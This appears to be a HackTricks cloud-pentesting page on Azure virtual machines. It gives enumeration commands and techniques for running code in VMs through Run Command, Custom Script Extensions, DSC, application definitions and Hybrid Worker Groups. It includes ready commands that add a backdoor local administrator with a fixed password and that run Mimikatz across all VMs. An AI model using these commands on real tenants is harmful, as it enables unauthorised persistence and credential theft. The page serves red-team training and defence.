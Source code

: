# Az - Virtual Machines & Network

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic information

[From the docs:](https://learn.microsoft.com/en-us/azure/virtual-machines/overview) Azure virtual machines are one of several types of [on-demand, scalable computing resources](https://learn.microsoft.com/en-us/azure/architecture/guide/technology-choices/compute-decision-tree) that Azure offers. Typically, you choose a virtual machine when you need more control over the computing environment than the other choices offer. This article gives you information about what you should consider before you create a virtual machine, how you create it, and how you manage it.

## Azure Network Information

Azure networks contains **different entities and ways to configure it.** You can find a brief **descriptions,** **examples** and **enumeration** commands of the different Azure network entities in:

{% content-ref url="az-azure-network.md" %}
[az-azure-network.md](az-azure-network.md)
{% endcontent-ref %}

## Azure Bastion

**Azure Bastion** offers a secure, fully managed RDP (Remote Desktop Protocol) and SSH (Secure Shell) access solution over SSL through the Azure portal. It's integrated within an Azure Virtual Network, allowing RDP and SSH connectivity to VMs using private IPs, avoiding the need for public IPs. This makes it a safer, more convenient alternative to traditional methods involving public IP assignments and NSG rule configurations for VM access. Developers and IT personnel can securely access VMs from the Azure portal using their web browsers, streamlining the process for development and testing environments.

To list all Azure Bastion Hosts in your subscription, you can use the following command:

{% code overflow="wrap" %}
```bash
az network bastion list --query "[].{name:name, resourceGroup:resourceGrou, location:location}" -o table
```
{% endcode %}

## VM Enumeration

```powershell
# Get readable VMs
Get-AzVM | fl
# Lis running VMs
Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | fl *
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | select -ExpandProperty NetworkProfile

# Get iface and IP address
Get-AzNetworkInterface -Name <interface_name>
Get-AzPublicIpAddress -Name <iface_public_ip_id>

#Get installed extensions
Get-AzVMExtension -ResourceGroupName <res_group_name> -VMName <name>

Get-AzVM | select -ExpandProperty NetworkProfile # Get name of network connector of VM
Get-AzNetworkInterface -Name <name> # Get info of network connector (like IP)
```

## **Run commands in a VM**

### **AAD Login in VM**

It's possible to allow access to users authenticated via AzureAD. For example trying to access a **linux VM**: `ssh username@azure-corp.com@1.1.1.1` (it's important to **use the email** with the azurecorp used when trying to login) you could get an error like:

{% code overflow="wrap" %}
```
(username@azure-corp.com@1.1.1.1) This preview capability is not for production use. When you sign in, verify the name of the app on the sign-in screen is "Azure Linux VM Sign-in" and the IP address of the target VM is correct.

To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code DT4PNSTGR to authenticate. Press ENTER when ready.
```
{% endcode %}

Just **follow those instructions** going to [https://microsoft.com/devicelogin](https://microsoft.com/devicelogin) and indicating the code, use the email and password as credentials and you will be able to connect via SSH (if that user has enough permissions to do so: `Virtual Machine Administrator Login` or `Virtual Machine User Login` role).

### **Run Command**

```powershell
# The permission allowing this is Microsoft.Compute/virtualMachines/runCommand/action
Invoke-AzVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose
## Another way
Invoke-AzureRmVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose

# Content of the script
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
New-LocalUser -Name new_user -Password $passwd 
Add-LocalGroupMember -Group Administrators -Member new_user
```

```powershell
# Try to run in every machine
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```

### **Run Custom Script Extension**

Azure virtual machine (VM) extensions are **small applications** that provide post-deployment configuration and automation **tasks** on **Azure VMs**. For example, if a virtual machine requires software installation, antivirus protection, or the ability to run a script inside it, you can use a VM extension.

Therefore, if you have access to write it, you can execute arbitrary code:

```powershell
# Microsoft.Compute/virtualMachines/extensions/write
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users new_user Welcome2022. /add /Y; net localgroup administrators new_user /add"}'
```

### DesiredConfigurationState (DSC)

DesiredConfigurationState (DSC) is a PowerShell tool similar to Ansible, used for setting up a host through code. DSC integrates with Azure, allowing the upload of specific configuration files. These files must adhere to a strict syntax. Notably, the DSC extension in Azure can execute commands from files that meet certain formatting criteria, even if the syntax is not correct for DSC standards, as shown in the provided figure.

The execution of these commands is facilitated by the [**`Publish-AzVMDscConfiguration`**](https://docs.microsoft.com/en-us/powershell/module/az.compute/publish-azvmdscconfiguration?view=azps-7.5.0) function in Az PowerShell. The requirements include a **.PS1** file with a defined function and the file must be zipped into a **.zip** file. Even though the syntax might not be accurate for DSC, the code will still execute. However, the extension will mark the execution status as "failure," and no output from the command will be visible due to the status being overwritten by the failure message.

### VM Application Definitions

VM Application Definitions allow for the repeatable deployment of versioned applications to an Azure VM. This resource supports the deployment and update of applications across VMs. To set this up, several steps are required, involving commands like **`New-AzGalleryApplication`** and **`New-AzGalleryApplicationVersion`** in Az PowerShell.

The execution of applications or commands through this method involves the **"VMAppExtension"**, which is installed automatically when an application is applied to a VM. The extension retrieves the file from the specified URI and names it exactly as the application, without an extension. To execute the file correctly, the "ManageActions" field in the REST API call must be configured to rename the file with the appropriate extension. The setup of this method, once complete, will resemble the structure shown in the provided figure.

However, this method of execution is relatively slow, taking about 3-4 minutes to execute an application or command. The files related to this process are stored in specific directories (`C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Downloads\` for the application copy and `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Status\` for the execution status).

Both techniques provide unique ways of executing commands and deploying applications in Azure environments, each with its own set of requirements, steps, and considerations.

### Hybrid Worker Groups (HWGs) in Azure

[**Hybrid Worker Groups (HWGs)**](https://docs.microsoft.com/en-us/azure/automation/automation-hybrid-runbook-worker) are a feature in Azure that allow Runbooks, configured in an Automation Account, to be executed on an Azure Virtual Machine (VM) that is part of the designated HWG. This execution is facilitated through an extension installed on the VM, which deploys the Runbook code onto the VM. A significant aspect of this process is that the actual credentials are not a factor in execution because the code runs with elevated privileges, specifically as **SYSTEM** or root, as illustrated in the provided figure.

A crucial detail for those utilizing Windows 10 VMs is the necessity to specify the PowerShell version for the Runbook. It should be set to run as PowerShell Version 5.1 instead of 7.1. This requirement stems from the fact that PowerShell 7.1 is not installed by default on these VMs, leading to a failure in script execution if version 7.1 is specified.

This feature of Azure offers a robust method for automating and managing tasks across hybrid environments, allowing for centralized management and execution of tasks on Azure VMs.

## References

* [https://learn.microsoft.com/en-us/azure/virtual-machines/overview](https://learn.microsoft.com/en-us/azure/virtual-machines/overview)
* [https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/](https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
